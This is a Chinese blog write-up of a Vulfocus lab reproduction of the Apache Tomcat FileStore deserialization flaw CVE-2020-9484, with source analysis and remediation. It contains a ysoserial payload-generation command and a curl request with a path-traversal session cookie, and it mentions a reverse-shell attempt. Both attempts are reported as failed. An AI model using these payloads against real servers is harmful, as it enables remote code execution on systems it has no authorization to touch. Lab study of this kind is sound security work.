







# 【Vulfocus 解题系列】Apache Tomcat 反序列化代码执行漏洞复现(CVE-2020-9484)_ 一次失败的漏洞复现 - 4andao - 博客园

> 原文：[`www.cnblogs.com/4andao/p/14225299.html`](https://www.cnblogs.com/4andao/p/14225299.html)

# 0x01 简介

Apache Tomcat 是一个开放源代码、运行 servlet 和 JSP Web 应用软件的基于 Java 的 Web 应用软件容器。

# 0x02 漏洞概述

这次是由于错误配置和 org.apache.catalina.session.FileStore 的 LFI 和反序列化漏洞引起的 RCE。
当配置了 org.apache.catalina.session.PersistentManager 并且使用 org.apache.catalina.session.FileStore 来储存 session 时, 用户可以通过 org.apache.catalina.session.FileStore 的一个 LFI 漏洞来读取服务器上任意以 .session 结尾的文件。然后通过反序列化来运行 .session 文件。
默认情况是使用 org.apache.catalina.session.StandardManager, 将 session 储存到内存，而 PersistentManager 会将不常用的 session swap out, 从而减少内存占用。

# 0x03 影响版本

Apache Tomcat:
• 10.0.0-M1 to 10.0.0-M4
• 9.0.0.M1 to 9.0.34
• 8.5.0 to 8.5.54
• 7.0.0 to 7.0.103

# 0x04 环境搭建

```
使用 Vulfocus 搭建环境
下载 vulfocus/tomcat-cve_2020_9484
https://hub.docker.com/r/vulfocus/tomcat-cve_2020_9484
启动
docker run -d --name tomcat-cve_2020_9484 -p 8080:8080  vulfocus/tomcat-cve_2020_9484:latest 
```

# 0x05 漏洞复现 1：docker 版本

0、环境
物理机：Windows 10
虚拟机：CentOS 7，安装 docker
靶机：Tomcat，docker 版
目标是在服务器上执行命令 touch /tmp/666，假设 666.session 文件已经被上传到服务器的已知位置。

1、进入容器 bash
`docker run -it vulfocus/tomcat-cve_2020_9484 /bin/bash`


2、下载 ysoserial：一个生成 java 反序列化 payload 的 .jar 包
3、执行下面语句生成 payload
`java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections2 "touch /tmp/666" > /tmp/666.session`
4、执行
`curl 'http://127.0.0.1:8080' -H 'Cookie: JSESSIONID=../../../../../tmp/666.session'`
但是执行失败，原因未知......

5、排错过程
已经开启容器端口转发
`docker run -d --name 94844 -p 8080:8080 vulfocus/tomcat-cve_2020_9484:latest'`
物理机访问也是正常的


# 0x06 漏洞复现 2：Vulfocus 演示官网版本

1、官网自行搜索题目环境，打开环境。根据 docker hub 的提示，需要自行构造表单 POST 请求

2、Burp 上传文件
我用的是 Burp，shell.session 的内容是使用 ysoserial 生成的 payload，目标是反弹 shell。生成过程跟上面的一致。
这里值得注意的是，要右键-“Paste from file”，不要直接打开.session 文件，然后复制粘贴（编码与格式问题，会导致内容错误）。




3、修改 cookie

可见返回 404
VPS 也的确没弹回 shell，失败......


# 0x07 漏洞分析

此处使用 Tomcat 10.0.0-M4 来做分析
这里主要是 FileStore 的 LFI 漏洞可以反序列化任意路径上的 .session 文件, 如果同时存在文件上传漏洞的话就是 RCE 了。
首先看 FileStore 源码, 当用户请求里带有 JSESSIONID 时，会运行存在问题的 load 方法

```
public Session load(String id) throws ClassNotFoundException, IOException {
// Open an input stream to the specified pathname, if any
File file = file(id);
if (file == null || !file.exists()) {
return null;
}
Context context = getManager().getContext();
Log contextLog = context.getLogger();
if (contextLog.isDebugEnabled()) {
contextLog.debug(sm.getString(getStoreName()+".loading", id, file.getAbsolutePath()));
}
ClassLoader oldThreadContextCL = context.bind(Globals.IS_SECURITY_ENABLED, null);
try (FileInputStream fis = new FileInputStream(file.getAbsolutePath());
ObjectInputStream ois = getObjectInputStream(fis)) {
StandardSession session = (StandardSession) manager.createEmptySession();
session.readObjectData(ois);
session.setManager(manager);
return session;
} catch (FileNotFoundException e) {
if (contextLog.isDebugEnabled()) {
contextLog.debug("No persisted data file found");
}
return null;
} finally {
context.unbind(Globals.IS_SECURITY_ENABLED, oldThreadContextCL);
}
} 
```

load 会先将 session id 转换成 file object 查看文件是否存在, 如果存在的话会读取文件. file object 会为输入的 id 添加
.session 后缀 然而并没有验证文件的目录

```
private File file(String id) throws IOException {
if (this.directory == null) {
return null;
}
String filename = id + FILE_EXT;
File file = new File(directory(), filename);
return file;
} 
```

当文件存在时, 系统会运行 `org.apache.catalina.session.getObjectInputStream` 方法

```
protected ObjectInputStream getObjectInputStream(InputStream is) throws IOException {
BufferedInputStream bis = new BufferedInputStream(is);
CustomObjectInputStream ois;
ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
if (manager instanceof ManagerBase) {
ManagerBase managerBase = (ManagerBase) manager;
ois = new CustomObjectInputStream(bis, classLoader, manager.getContext().getLogger(),
managerBase.getSessionAttributeValueClassNamePattern(),
managerBase.getWarnOnSessionAttributeFilterFailure());
} else {
ois = new CustomObjectInputStream(bis, classLoader);
}
return ois;
} 
```

`getObjectInputStream` 方法运行 `org.apache.catalina.util.CustomObjectInputStream` 获取 `gadget` 类, 然后就反序列化`.session`文件了。

# 0x08 修复方式

对比 Tomcat 10.0.0-M4 和 Tomcat 10.0.0-M5 的 FileStore 源码可以发现做了目录验证。


修复方式就是升级,或者配置 WAF，过滤掉 ../ 之类的字符串，或者不使用 FileStore。

# 0x09 参考链接：

• [`my.oschina.net/u/4593034/blog/4418600`](https://my.oschina.net/u/4593034/blog/4418600)
• [`www.redtimmy.com/java-hacking/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/`](https://www.redtimmy.com/java-hacking/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/)
• [`y4er.com/post/cve-2020-9484-tomcat-session-rce/`](https://y4er.com/post/cve-2020-9484-tomcat-session-rce/)
• [`cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9484`](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9484)
• [`github.com/masahiro331/CVE-2020-9484`](https://github.com/masahiro331/CVE-2020-9484)